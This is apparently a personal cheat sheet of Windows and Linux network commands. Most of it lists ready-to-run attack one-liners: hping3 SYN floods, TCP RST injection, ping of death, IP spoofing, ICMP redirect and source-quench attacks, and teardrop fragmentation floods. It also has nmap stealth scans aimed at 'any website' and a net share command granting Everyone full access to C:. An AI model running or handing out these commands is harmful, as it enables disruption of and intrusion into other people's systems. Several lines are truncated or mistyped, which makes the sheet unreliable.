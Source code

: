 ng abc.com
ipconfig
tracert ip
netsh wlan show profile
pathping ip
netstat -a
net share ShareName=C:\share /GRANT:Everyone,FULL
net share ShareName /DELETE
route print
arp -a
nslookup ip
................
Syn Flood
    sudo hping3 -s -flood --interface eth0 -p 80 ip
Send TCP RST packets
    sudo hping3 -R -p 80 ip
...............
TCP port scanning
    here IP can be of any website
    TCP  connect scan : nmap -sT ip
    SYN scan : nmap -sS ip
    FIN scan : nmap -sF ip
    Xmas : nmap -sX ip
    NULL scan : nmap -sN ip
.................
UDP port scanning
    sudo nmap -sU --host-timeout 100s nmap.org
    sudo -sU -p 53,123 --data-length 16 --max-retries 1 --host-timeout 30m --min-rate 1000 nmap.org
    sudo nmap -sU -p 53,123 --max-retries 1 --host-timeout 15m --min-rate 1000 nmap.org

................
ping of death : ping -s 65500 targetIP
spoof attack : sudo hping3 --spoof IP -c 10 -S SPOOF_IP_netmask
Destination unreachable : sudo hping3 -C 3 -d 120 -p 443 IP
redirect attack : sudo hping3 -C 5 -d 120 LINUX_IP -p 443 WIN_IP
source quench : sudo hping3 -C 4 -d 120 WIN_IP
.............
ip fragmentation : sudo ping -f -l 900 WIN_IP
IP teardrop : sudo hping3 -I eth0 --frag --flood -d 120 -p 80 IP
